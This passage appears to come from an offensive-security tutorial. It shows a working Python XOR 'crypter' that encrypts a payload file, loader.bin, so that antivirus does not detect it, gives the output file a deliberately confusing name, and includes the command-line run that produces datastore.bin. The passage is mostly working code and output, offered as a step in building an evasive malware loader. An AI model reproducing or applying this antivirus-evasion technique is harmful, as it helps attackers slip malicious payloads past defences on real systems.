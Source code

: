 ## Encryption

Let's encrypt the payload using a Python script. In our Python script, we'll begin by encrypting a payload using a basic XOR crypter. While XOR encryption is not suitable for securing sensitive data, it effectively obfuscates content to avoid antivirus detection. The only scenario where XOR is fully secure is the "One Time Pad" encryption, where the key length matches the content and is used once (learn more: [https://en.wikipedia.org/wiki/One-time_pad](https://en.wikipedia.org/wiki/One-time_pad)). In our case, we'll use a 512-bit key.

```
# XOR encryption key (replace with your own)
key_hex = "4f130123a70d83b551efed9191e71a30ef5ed5dc660c5cbe8fc468547de2425c62345e470706d3566d046a467b71000160d119efe51a63286d04de4d5cad3159"

# convert the key to bytes
key = bytes.fromhex(key_hex)

# XOR encryption
def xor(data, key):
    encrypted_data = bytearray(len(data))
    for i in range(len(data)):
        encrypted_data[i] = data[i] ^ key[i % len(key)]
        
    return bytes(encrypted_data)

# read binary payload from file
with open("loader.bin", "rb") as f:
    payload = f.read()
    print()

    # Encrypt the payload
    encrypted_payload = xor(payload, key)
    
# save to binary file, make a confusing name
with open("datastore.bin", "wb") as f2:
    f2.write(encrypted_payload)

print(f"Key is: {key_hex}")
print(f"[ENCRYPTED_FROM]\r\n{payload[:512]}")
print(f"[ENCRYPTED TO]\r\n{encrypted_payload[:512]}")
```

Time to run the crypter.

```
python .\crypter.py
PS C:\Users\admin\Desktop\donut> dir | findstr datastore
-a----        23.10.2023     14:55          87076 datastore.bin
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/46.png)
We have successfully encrypted the payload.

